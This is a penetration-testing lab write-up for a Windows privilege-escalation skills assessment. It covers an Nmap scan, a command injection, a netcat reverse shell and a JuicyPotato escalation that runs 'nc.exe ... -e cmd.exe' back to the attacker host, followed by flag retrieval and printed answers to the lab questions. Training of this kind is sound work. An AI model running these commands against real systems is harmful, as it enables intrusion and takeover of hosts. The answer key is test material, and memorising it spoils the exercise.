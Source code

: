 # Skills Assessment 1

uring a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.

For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.

Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to `NT AUTHORITY\SYSTEM` level or similar access, and answer the questions below to complete this portion of the assessment.

## Questions

<details>

<summary>Nmap Enumeration</summary>

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-21 03:20 EDT
Nmap scan report for 10.129.225.46
Host is up (0.19s latency).
Not shown: 998 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: DEV Connection Tester
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-07-21T07:21:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINLPE-SKILLS1-SRV
| Not valid before: 2023-07-20T07:18:28
|_Not valid after:  2024-01-19T07:18:28
| rdp-ntlm-info: 
|   Target_Name: WINLPE-SKILLS1-
|   NetBIOS_Domain_Name: WINLPE-SKILLS1-
|   NetBIOS_Computer_Name: WINLPE-SKILLS1-
|   DNS_Domain_Name: WINLPE-SKILLS1-SRV
|   DNS_Computer_Name: WINLPE-SKILLS1-SRV
|   Product_Version: 10.0.14393
|_  System_Time: 2023-07-21T07:21:13+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Command Injection

![](<../../.gitbook/assets/image (126) (1).png>)

```
iis apppool\defaultapppool
```

</details>

<details>

<summary>Foothold (reverse shell) and local enumeration</summary>

### Getting Reverse Shell

I used powershell#3 base64 payload

![](<../../.gitbook/assets/image (124) (1).png>)

```
rlwrap nc -lvnp 7890                          
listening on [any] 7890 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.225.46] 49670

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> 
```

### Local Enumeration

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```

```
PS C:\windows\system32\inetsrv> wmic qfe
Caption                                     CSName           Description      FixComments  HotFixID   InstallDate  InstalledBy          InstalledOn  Name  ServicePackInEffect  Status  

http://support.microsoft.com/?kbid=3199986  WINLPE-SKILLS1-  Update                        KB3199986               NT AUTHORITY\SYSTEM  11/21/2016                                      
http://support.microsoft.com/?kbid=3200970  WINLPE-SKILLS1-  Security Update               KB3200970               NT AUTHORITY\SYSTEM  11/21/2016                                      

```

```
3199986&3200970
```

</details>

<details>

<summary>Privilege Escalation</summary>

```
PS C:\Users\Public> ./JuicyPotato.exe -l 1337 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\nc.exe 10.10.14.5 8443 -e cmd.exe" -t *
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
......
[+] authresult 0
{5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Users\Public>
```

```
sudo rlwrap nc -lvnp 8443                                                                 
[sudo] password for kali: 
listening on [any] 8443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.225.46] 49693
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>

<details>

<summary>Post Exploitation</summary>

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7029-F417

 Directory of C:\Users\Administrator

06/04/2021  07:50 PM    <DIR>          .
06/04/2021  07:50 PM    <DIR>          ..
06/04/2021  07:50 PM    <DIR>          .ApacheDirectoryStudio
05/26/2021  06:21 PM    <DIR>          Contacts
08/08/2021  06:54 PM    <DIR>          Desktop
06/07/2021  12:23 PM    <DIR>          Documents
06/07/2021  12:34 PM    <DIR>          Downloads
05/26/2021  06:21 PM    <DIR>          Favorites
05/26/2021  06:21 PM    <DIR>          Links
06/07/2021  12:41 PM    <DIR>          Music
05/26/2021  06:21 PM    <DIR>          Pictures
05/26/2021  06:21 PM    <DIR>          Saved Games
05/26/2021  06:21 PM    <DIR>          Searches
05/26/2021  06:21 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  18,932,109,312 bytes free

```

```
C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
Ev3ry_sysadm1ns_n1ghtMare!
```

![](<../../.gitbook/assets/image (117) (1).png>)

```
C:\>where /R C:\ confidential.txt
where /R C:\ confidential.txt
C:\Documents and Settings\Administrator\Documents\My Music\confidential.txt
C:\Documents and Settings\Administrator\Music\confidential.txt
C:\Documents and Settings\Administrator\My Documents\My Music\confidential.txt
C:\Users\Administrator\Documents\My Music\confidential.txt
C:\Users\Administrator\Music\confidential.txt
C:\Users\Administrator\My Documents\My Music\confidential.txt

C:\>type C:\Users\Administrator\Music\confidential.txt
type C:\Users\Administrator\Music\confidential.txt
5e5a7dafa79d923de3340e146318c31a

```

</details>

Which two KBs are installed on the target system? (Answer format: 3210000&3210060)

* ```
  3199986&3200970
  ```

Find the password for the ldapadmin account somewhere on the system.

\-

Escalate privileges and submit the contents of the flag.txt file on the Administrator Desktop.

* ```
  Ev3ry_sysadm1ns_n1ghtMare!
  ```

After escalating privileges, locate a file named confidential.txt. Submit the contents of this file.

* ```
  5e5a7dafa79d923de3340e146318c31a
  ```
